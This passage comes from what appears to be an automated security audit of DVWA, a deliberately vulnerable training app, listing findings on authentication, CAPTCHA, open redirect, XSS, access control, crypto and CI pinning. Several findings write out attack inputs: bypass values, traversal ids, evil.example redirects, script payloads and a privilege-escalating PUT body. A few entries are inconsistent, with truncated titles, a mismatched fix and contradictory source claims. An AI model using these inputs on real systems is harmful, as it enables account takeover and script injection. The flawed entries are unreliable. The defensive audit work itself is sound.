**Instances (2):** `vulnerabilities/brute/source/low.php`: 3; `login.php`: 48

**Issue:** An attacker scripts GET logins with a wordlist against the admin account; low has no limit, medium only sleeps 2s, and high adds a CSRF token fetched per request and a random 0-3s sleep, so guessing proceeds until the password is found.

**Evidence:** ✓ verified

**Fix:** Apply rate limiting and lock-out thresholds on authentication endpoints → ◑ [M-044](#m-044) — Rate-limit and lock out repeated authentication attempts

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-307](https://cwe.mitre.org/data/definitions/307.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-040"></a><a id="f-040"></a>
#### F-040 · Predictable session identifier generation weak_id

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/weak_id/source/low.php:10`

**Issue:** An attacker observes or guesses `dvwaSession` values: `low.php` issues an incrementing counter, `medium.php` issues the Unix `time()`, and `high.php` issues md5 of an incrementing counter. Any consumer trusting this cookie as a session identifier could be impersonated by computing the next or a neighbouring value.

**Evidence:** ◌ ambiguous - `low.php:10` sets cookie to sequential counter, `medium.php:6` to `time()`, `high.php:10` to `md5(counter)`; none set HttpOnly. No consumer of `dvwaSession` for authentication was read, so impersonation impact is not shown.

**Fix:** ◑ [M-005](#m-005) — Manual review: verify Predictable session identifier generation in weak_id module · ◑ [M-046](#m-046) — Generate session IDs with a CSPRNG

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-341](https://cwe.mitre.org/data/definitions/341.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-041"></a><a id="f-041"></a>
#### F-041 · Leftover development bypass value skips CAPTCHA

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/captcha/source/high.php:20`

**Issue:** An attacker reads the DEV NOTE comment in the page, sends `g-recaptcha-response=hidd3n_valu3` with User-Agent `reCAPTCHA`, and the password change proceeds without solving the CAPTCHA.

**Evidence:** ✓ verified

**Fix:** ◑ [M-047](#m-047) — Remove the hardcoded CAPTCHA bypass branch

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-489](https://cwe.mitre.org/data/definitions/489.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-045"></a><a id="f-045"></a>
#### F-045 · CAPTCHA completion trusted from client-supplied form field

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/captcha/source/medium.php:55`

**Issue:** A bot posts `step=2` with `passed_captcha=true`; the server trusts the client field and changes the password without any CAPTCHA.

**Evidence:** ✓ verified

**Fix:** ◑ [M-051](#m-051) — Enforce authorization on the server

**Classification:** Broken Access Control · STRIDE: Spoofing · [CWE-602](https://cwe.mitre.org/data/definitions/602.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-046"></a><a id="f-046"></a>
#### F-046 · CBC padding oracle enables token decryption

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/cryptography/source/token_library_high.php:26`

**Issue:** An unauthenticated attacker posts modified token/IV pairs to `check_token_high.php`; distinct errors for padding failures versus format failures reveal padding validity, letting the attacker decrypt the token and forge userid:1 to be accepted as admin.

**Evidence:** ✓ verified

**Fix:** ◑ [M-052](#m-052) — Use authenticated encryption and uniform error responses

**Classification:** Cryptographic Failures · STRIDE: Spoofing · [CWE-649](https://cwe.mitre.org/data/definitions/649.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-048"></a><a id="f-048"></a>
#### F-048 · CAPTCHA skipped by posting step 2 directly

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/captcha/source/low.php:45`

**Issue:** A bot posts `step=2` with `password_new` and `password_conf` directly; the second stage never checks that CAPTCHA was solved and changes the password automatically.

**Evidence:** ✓ verified

**Fix:** ◑ [M-054](#m-054) — Verify CAPTCHA in the same request that changes the password

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-841](https://cwe.mitre.org/data/definitions/841.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-049"></a><a id="f-049"></a>
#### F-049 · API user creation sets a fixed default password

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/api/src/UserController.php:167`

**Found by:** verification ([TC-AUTHN-04](#tc-authn-04))

**Weakness:** [W-005](#w-005) - Security-sensitive data uses weak cryptographic primitives

**Issue:** A caller creates a user through POST `/user`. The handler ignores any supplied password and gives every new user the literal password 'password', hashed with unsalted `SHA-256`. Every created account shares a known password, and the stored hash is trivially reversible.

**Evidence:** ✓ verified - Line 167 builds the User with `hash("sha256", "password")`: one fixed password for every account, with a fast unsalted digest.

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ◑ [M-055](#m-055) — Require a user-chosen password and hash it adaptively

**Classification:** Cryptographic Failures · STRIDE: Spoofing · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · Verification items: [TC-AUTHN-04](#tc-authn-04)

<a id="t-050"></a><a id="f-050"></a>
#### F-050 · API token endpoint supports the deprecated OAuth

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/api/src/LoginController.php:90`

**Found by:** verification ([TC-AUTHN-07](#tc-authn-07))

**Issue:** The API login endpoint implements `grant_type=password`. Client applications collect the user's password and send it to the token endpoint, so the end user cannot use delegated or federated login.

Clients handle user passwords directly, which widens the exposure of credentials and the phishing surface.

**Evidence:** ✓ verified - Line 89 switches on `$_POST['grant_type']`. Line 90 handles 'password', and lines 93-94 take the user's password from the POST body.

**Fix:** ◑ [M-056](#m-056) — Replace the password grant with authorization code and PKCE

**Classification:** OAuth / OIDC Misconfiguration · STRIDE: Spoofing · [CWE-1390](https://cwe.mitre.org/data/definitions/1390.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/) · Verification items: [TC-AUTHN-07](#tc-authn-07)

<a id="t-063"></a><a id="f-063"></a>
#### F-063 · Path traversal in help viewer id and locale

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/view_help.php:20`

**Found by:** verification ([TC-FILE-01](#tc-file-01))

**Weakness:** [W-002](#w-002) - Input handling lacks enforced boundary validation

**Issue:** An authenticated user passes `id=`../../`<dir>` or a crafted locale; the unnormalized values are interpolated into the path read by `file_get_contents`, selecting files outside vulnerabilities/ that end in `help/help.php`.

**Evidence:** ✓ verified - \$_GET id and locale are interpolated into the path at lines 20 and 22 with no basename, realpath or containment check; the fixed filename suffix narrows what can be selected.

**Fix:** Resolve and normalise every constructed path and reject anything that escapes the intended base directory → ◑ [M-069](#m-069) — Allow-list help ids and check resolved path containment

**Classification:** Insecure File Handling · STRIDE: Information Disclosure · [CWE-22](https://cwe.mitre.org/data/definitions/22.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/) · Verification items: [TC-FILE-01](#tc-file-01)

<a id="t-065"></a><a id="f-065"></a>
#### F-065 · Repeating-key XOR cipher with hardcoded key

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/cryptography/source/low.php:16`

**Weakness:** [W-005](#w-005) - Security-sensitive data uses weak cryptographic primitives

**Issue:** The message service XORs input with the fixed key 'wachtwoord'. Because the page will encode any chosen plaintext, an attacker who encodes a run of null bytes gets the key back, then decrypts any intercepted message.

**Evidence:** ✓ verified

**Fix:** Replace the broken algorithm with a vetted modern primitive (AES-GCM / Argon2id / Ed25519) → ◑ [M-071](#m-071) — Use authenticated encryption with managed keys

**Classification:** Cryptographic Failures · STRIDE: Information Disclosure · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-066"></a><a id="f-066"></a>
#### F-066 · Broken hash primitive

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** Multiple locations (2)

**Weakness:** [W-005](#w-005) - Security-sensitive data uses weak cryptographic primitives

**Instances (2):** `vulnerabilities/captcha/source/impossible.php`: 19; `vulnerabilities/csrf/test_credentials.php`: 19

**Issue:** `MD5`/SHA-1 are collision-broken; unsafe for passwords or integrity of untrusted data.

**Evidence:** ✓ verified

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ◑ [M-017](#m-017) — Use modern cryptographic hash and KDF algorithms

**Classification:** Cryptographic Failures · STRIDE: Information Disclosure · [CWE-328](https://cwe.mitre.org/data/definitions/328.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · Verification items: [TC-AUTHN-04](#tc-authn-04), [TC-CRYPTO-01](#tc-crypto-01) · Rules: CRYPTO-PHP-001

<a id="t-067"></a><a id="f-067"></a>
#### F-067 · Login forms send passwords in GET query strings

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/brute/source/low.php:8`

**Found by:** verification ([TC-AUTHN-07](#tc-authn-07))

**Weakness:** [W-010](#w-010) - Login forms send passwords in GET query strings (`low.php:8`)

**Issue:** The brute-force login handlers read username and password from \$_GET. Every login therefore puts the plaintext password in the URL, where it ends up in browser history, web server and proxy access logs, and `Referer` headers.

Plaintext credentials are exposed to anyone who can read logs, history or Referer data.

**Evidence:** ✓ verified - `brute/source/low.php:8`, `medium.php:9` and `high.php:13` all read the password from \$_GET. Login is triggered by `$_GET['Login']`.

**Fix:** ◑ [M-072](#m-072) — Accept login credentials only in POST bodies

**Classification:** Cryptographic Failures · STRIDE: Information Disclosure · [CWE-598](https://cwe.mitre.org/data/definitions/598.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · Verification items: [TC-AUTHN-07](#tc-authn-07)

<a id="t-072"></a><a id="f-072"></a>
#### F-072 · Eval of file contents at user-controlled help

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/view_help.php:20`

**Found by:** survey and verification ([TC-INPUT-03](#tc-input-03))

**Weakness:** [W-006](#w-006) - Application data crosses into executable code

**Issue:** At `vulnerabilities/view_help.php:20`, `view_help.php` builds a path from the unsanitised id and locale parameters, reads vulnerabilities/{id}`/help/help.php` (or help.{locale}.php), and evals the contents as PHP. An authenticated user sets id to a traversal such as ../..`/some/dir`.

The page requires a DVWA login (line 6), but there is no allowlist on id or locale and no path containment.

**Evidence:** ✓ verified

**Fix:** Replace runtime code generation (eval/Function/template render) with a data-only execution path → ◑ [M-075](#m-075) — Remove server-side evaluation of untrusted input

**Classification:** Code Execution via Unsafe Deserialization or Eval · STRIDE: Elevation of Privilege · [CWE-95](https://cwe.mitre.org/data/definitions/95.html) · [OWASP A08:2025](https://owasp.org/Top10/2025/A08_2025-Software_or_Data_Integrity_Failures/) · Verification items: [TC-INPUT-03](#tc-input-03)

<a id="t-073"></a><a id="f-073"></a>
#### F-073 · Insecure Direct Object Reference (IDOR)

**Severity:** 🟡 Medium - verified attack-chain keystone in AC-T-002 (Bulk Data Exfiltration via Broken Object Authorization); see [§9](#9-abuse-cases)  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/bac/source/low.php:33`

**Issue:** An authenticated user sets the `user_id` cookie to another user's ID and requests that ID; the server compares the request ID with the cookie and returns the other user's profile.

**Evidence:** ✓ verified

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ◑ [M-076](#m-076) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-075"></a><a id="f-075"></a>
#### F-075 · Admin check on user update enforced only

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/authbypass/change_user_details.php:11`

**Issue:** At the low, medium and high security levels, any caller can POST to `change_user_details.php` and modify any user's name. The admin-only guard at line 11 applies only when the level is impossible, even though the page itself is restricted to admin at medium and high.

**Evidence:** ✓ verified

**Fix:** ◑ [M-078](#m-078) — Enforce admin authorization on every security level

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-076"></a><a id="f-076"></a>
#### F-076 · Mass assignment of privileged user level

**Severity:** 🟡 Medium - elevated to High as a verified attack-chain keystone in AC-T-002 (Bulk Data Exfiltration via Broken Object Authorization), AC-T-004 (Privilege Escalation via Mass-Assignment on Registration); see [§9](#9-abuse-cases)  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/api/src/UserController.php:225`

**Weakness:** [W-007](#w-007) - Privileged attributes lack an enforced write allowlist

**Issue:** An unauthenticated caller sends PUT `/vulnerabilities/api/v2/user/2` with `{"name":"x","level":0}`. `updateUser` copies the level field into the user object, which grants the admin level.

User data is rebuilt on every request, so the change is not persisted beyond the response, and the source shows no consumer that trusts it.

**Evidence:** ✓ verified

**Fix:** ◑ [M-079](#m-079) — Allowlist client-controlled fields

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-915](https://cwe.mitre.org/data/definitions/915.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-096"></a><a id="f-096"></a>
#### F-096 · User keeps

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/cryptography/source/check_token_high.php:15`

**Issue:** Tokens are stateless and `check_token` validates only the token content, with no revocation or server-side session lookup. Whether this is a defect depends on the unstated revocation-delay policy (open question).

The token-expiry enforcement in the unread `check_token` was not examined, and this is a deliberately vulnerable training app.

**Evidence:** ◌ ambiguous

**Fix:** ◑ [M-010](#m-010) — Manual review: verify User keeps using a withdrawn right · ○ [M-080](#m-080) — Re-check current roles and account status when a session or token is used

**Classification:** Broken Authentication · STRIDE: Elevation of Privilege · [CWE-613](https://cwe.mitre.org/data/definitions/613.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-097"></a><a id="f-097"></a>
#### F-097 · Unauthenticated or low-privilege caller uses user-management

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/api/public/index.php:71`

**Issue:** Router at `public/index.php` dispatches `/user[/id]` to UserController with no authentication or role check, but `UserController.php` is not among the readable sources, so per-method authorization (list/view/update) cannot be decided. Which user operations are admin-only is also unknown.

**Evidence:** ◌ ambiguous

**Fix:** ◑ [M-011](#m-011) — Manual review: verify Unauthenticated or low-privilege caller uses user-management API… · ◑ [M-081](#m-081) — Enforce role checks on user API operations

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-062"></a><a id="f-062"></a>
#### F-062 · Security decisions driven by client-controlled cookie

**Severity:** 🟡 Medium  ·  **Component:** [C-04](#c-04) - DVWA web application  ·  **Location:** `dvwa/includes/dvwaPage.inc.php:205`

**Issue:** `dvwaSecurityLevelGet` returns `$_COOKIE['security']` directly. Any client can set `security=low` to turn off HttpOnly and SameSite on the session cookie, turn off session ID regeneration, and switch off output encoding such as the guestbook escaping.

The CSRF-protected form in `security.php` does not stop this.

**Evidence:** ✓ verified

**Fix:** ◑ [M-068](#m-068) — Use trusted client IPs for rate limiting

**Classification:** Broken Access Control · STRIDE: Tampering · [CWE-807](https://cwe.mitre.org/data/definitions/807.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-068"></a><a id="f-068"></a>
#### F-068 · Configuration file copied to backup alongside web content

**Severity:** 🟡 Medium  ·  **Component:** [C-04](#c-04) - DVWA web application  ·  **Location:** `dvwa/includes/DBMS/MySQL.php:138`

**Issue:** Setup copies `config/config.inc.php` to `config/config.inc.php.bak`. If the web server serves .bak files as plain text, a client can download the DB credentials. No access restriction was in the read source.

**Evidence:** ◌ ambiguous

**Fix:** ◑ [M-009](#m-009) — Manual review: verify Configuration file copied to backup alongside web content · ◑ [M-073](#m-073) — Stop writing config backups into web root

**Classification:** Error Information Disclosure · STRIDE: Information Disclosure · [CWE-530](https://cwe.mitre.org/data/definitions/530.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

<a id="t-042"></a><a id="f-042"></a>
#### F-042 · Open redirect with substring-only target check

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/open_redirect/source/high.php:5`

**Issue:** `high.php` accepts any redirect value that contains 'info.php'. An attacker uses redirect=`https://evil.example/?a=info.php`, and the value goes unchanged into the Location header.

**Evidence:** ✓ verified

**Fix:** ◑ [M-048](#m-048) — Match redirect targets against an exact allowlist

**Classification:** Open Redirect · STRIDE: Spoofing · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-043"></a><a id="f-043"></a>
#### F-043 · Unvalidated open redirect from redirect parameter

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/open_redirect/source/low.php:4`

**Issue:** An attacker sends a victim a link to `open_redirect/source/low.php?redirect`=`https://evil.example`. The script copies the GET value straight into a Location header without authentication or validation, so the victim leaves the trusted host for a phishing page.

**Evidence:** ✓ verified

**Fix:** ◑ [M-049](#m-049) — Replace URL redirect with ID allowlist

**Classification:** Open Redirect · STRIDE: Spoofing · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-044"></a><a id="f-044"></a>
#### F-044 · Open redirect filter bypass

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/open_redirect/source/medium.php:11`

**Issue:** `medium.php` only blocks the strings http:// and `https://`. An attacker supplies redirect=//evil.example, which passes the regex and is placed into the Location header, so the browser goes to the attacker's host.

**Evidence:** ✓ verified

**Fix:** ◑ [M-050](#m-050) — Use an allowlist of internal redirect targets

**Classification:** Open Redirect · STRIDE: Spoofing · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-053"></a><a id="f-053"></a>
#### F-053 · Request URI reflected unescaped into inline JavaScript

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/api/source/low.php:47`

**Weakness:** [W-003](#w-003) - Frontend rendering lacks enforced output encoding

**Issue:** `low.php` and `medium.php` embed `$_SERVER['REQUEST_URI']`, with only a path prefix stripped, inside a single-quoted JavaScript string. A crafted link whose query contains a quote can break out of the string and run script in an authenticated DVWA session, depending on how the browser encodes quotes.

**Evidence:** ◌ ambiguous

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-006](#m-006) — Manual review: verify Request URI reflected unescaped into inline JavaScript · ◑ [M-059](#m-059) — JSON-encode server values embedded

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-054"></a><a id="f-054"></a>
#### F-054 · Stored XSS in authbypass user table

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/authbypass/authbypass.js:45`

**Found by:** survey and verification ([TC-INPUT-04](#tc-input-04))

**Weakness:** [W-003](#w-003) - Frontend rendering lacks enforced output encoding

**Issue:** At `vulnerabilities/authbypass/authbypass.js:45` a user who can change `first_name` or surname stores a value such as '">``' through `change_user_details.php`. Outside the impossible level, `get_user_data.php` returns the value unescaped; htmlspecialchars is applied only at the impossible level (line 22).

There is no control at the sink.

**Evidence:** ✓ verified

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-060](#m-060) — Encode output instead of bypassing the framework sanitizer (🟡 [F-054](#f-054))

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · Verification items: [TC-INPUT-04](#tc-input-04)

<a id="t-055"></a><a id="f-055"></a>
#### F-055 · Stored XSS of logged X-Forwarded-For in access log table

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/bac/index.php:71`

**Weakness:** [W-003](#w-003) - Frontend rendering lacks enforced output encoding

**Issue:** An attacker sends a bac request with X-Forwarded-For set to a script tag; it is stored in `bac_log` and later rendered without encoding in the Access Log table to every user viewing the bac page, executing script in their session.

**Evidence:** ✓ verified

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-061](#m-061) — HTML-encode log fields when rendering the access log

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-056"></a><a id="f-056"></a>
#### F-056 · Reflected XSS of username in login welcome message

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/brute/source/low.php:21`

**Weakness:** [W-003](#w-003) - Frontend rendering lacks enforced output encoding

**Issue:** An attacker crafts a login GET link whose username is admin'#`<script>`...`</script>`; the SQLi makes login succeed and the username is echoed unescaped, running script in the victim's DVWA session.

**Evidence:** ✓ verified

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-062](#m-062) — HTML-encode the username before echoing it

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-057"></a><a id="f-057"></a>
#### F-057 · Unencoded HTML injection of include parameter at high CSP level

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/csp/source/high.php:10`

**Weakness:** [W-003](#w-003) - Frontend rendering lacks enforced output encoding

**Issue:** `$_POST['include']` is appended raw to the page body. CSP script-src 'self' blocks inline script, but the attacker can still inject arbitrary markup, such as phishing forms, and may load scripts from same-origin endpoints like the JSONP handler.

**Evidence:** ✓ verified

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-063](#m-063) — HTML-encode the include parameter

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-058"></a><a id="f-058"></a>
#### F-058 · Reflected script injection

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/csp/source/low.php:15`

**Weakness:** [W-003](#w-003) - Frontend rendering lacks enforced output encoding

**Issue:** At the low CSP level, `$_POST['include']` is placed raw inside a script src attribute. The CSP allowlists public hosting services such as `unpkg.com` and cdn.jsdelivr.net, so an attacker can load their own JavaScript, or break out of the attribute with a quote.

A cross-site form POST can deliver the payload to a victim.

**Evidence:** ✓ verified

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-064](#m-064) — Remove user-controlled script src and tighten CSP

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-059"></a><a id="f-059"></a>
#### F-059 · Reflected XSS with static CSP nonce and unsafe-inline

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/csp/source/medium.php:16`

**Weakness:** [W-003](#w-003) - Frontend rendering lacks enforced output encoding

**Issue:** At the medium CSP level, `$_POST['include']` is echoed into the page as raw HTML. The CSP permits 'unsafe-inline' and uses a fixed nonce, so `<script>``alert(1)``</script>` runs. X-XSS-Protection is also disabled.

**Evidence:** ✓ verified

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-065](#m-065) — Encode output and use per-request CSP nonces

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-060"></a><a id="f-060"></a>
#### F-060 · Cross-site scripting

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/sqli/session-input.php:14`

**Weakness:** [W-003](#w-003) - Frontend rendering lacks enforced output encoding

**Issue:** A POSTed id containing `<script>` is stored in the session and written into the page body without encoding. The form has no anti-CSRF token, so an attacker page could auto-submit it to run script in a victim's DVWA session. Final rendering in `dvwaSourceHtmlEcho` was not read.

**Evidence:** ◌ ambiguous

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-007](#m-007) — Manual review: verify Cross-site scripting via reflected session ID · ◑ [M-066](#m-066) — HTML-encode the session ID before output

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-061"></a><a id="f-061"></a>
#### F-061 · Reflected XSS

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/view_source.php:85`

**Weakness:** [W-003](#w-003) - Frontend rendering lacks enforced output encoding

**Issue:** An attacker sends a logged-in victim `view_source.php?id`=`<script>`...`</script>`&`security=low`. \$id is put unencoded into the h2 heading and into an inline onclick handler, so script runs in the victim's session. Final output encoding in `dvwaSourceHtmlEcho` was not read.

**Evidence:** ◌ ambiguous

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-008](#m-008) — Manual review: verify Reflected XSS via id in source viewer heading · ◑ [M-067](#m-067) — Encode or allowlist id before HTML output

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-051"></a><a id="f-051"></a>
#### F-051 · Third-party GitHub Actions pinned by mutable tag instead of commit SHA

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - CI/CD Pipeline  ·  **Location:** Multiple locations (3)

**Found by:** survey and scanners

**Weakness:** [W-013](#w-013) - Build pipeline trusts mutable third-party references

**Instances (3):** `.github/workflows/docker-image.yml`: 16; `.github/workflows/codeql-analysis.yml`: 45; `.github/workflows/shiftleft-analysis.yml`: 24

**Issue:** The workflows reference third-party GitHub Actions by tags such as @v3, v1.3.0, v4.33.0 or @main instead of commit SHAs. These references appear, `.github/workflows/codeql-analysis.yml:45` and `.github/workflows/shiftleft-analysis.yml:24`.

The attacker can then steal the token or publish a backdoored DVWA image to ghcr.io.

**Evidence:** ✓ verified - `docker-image.yml` lines 16, 19 and 22 use major-version tags (v3) in the job that authenticates to `ghcr.io` with `GITHUB_TOKEN` and pushes images. `shiftleft-analysis.yml:24` passes `GITHUB_TOKEN` to scan-action pinned to v1.3.0.

**Fix:** ◑ [M-057](#m-057) — Pin all GitHub Actions to full commit SHAs

**Classification:** Supply-Chain Integrity · STRIDE: Tampering · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/) · Verification items: [TC-SUPPLY-01](#tc-supply-01) · Rules: IAC-011

<a id="t-052"></a><a id="f-052"></a>
#### F-052 · Container base images use floating tags without digest pinning

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - CI/CD Pipeline  ·  **Location:** `Dockerfile:1`

**Found by:** survey and scanners

**Weakness:** [W-013](#w-013) - Build pipeline trusts mutable third-party references

**Issue:** At `Dockerfile:1` the published DVWA image is built FROM php:8-apache and copies the composer binary from composer:latest. Neither reference is pinned by an @sha256 digest. No control was observed: the images are referenced by floating tags only.

**Evidence:** ✓ verified - `Dockerfile:1` uses FROM docker.io/library/php:8-apache. `Dockerfile:19` uses COPY `--from=composer:latest`. `compose.yml:12-14` pulls ghcr.io/digininja/dvwa:latest with `pull_policy` always.

**Fix:** ◑ [M-058](#m-058) — Pin base images by sha256 digest

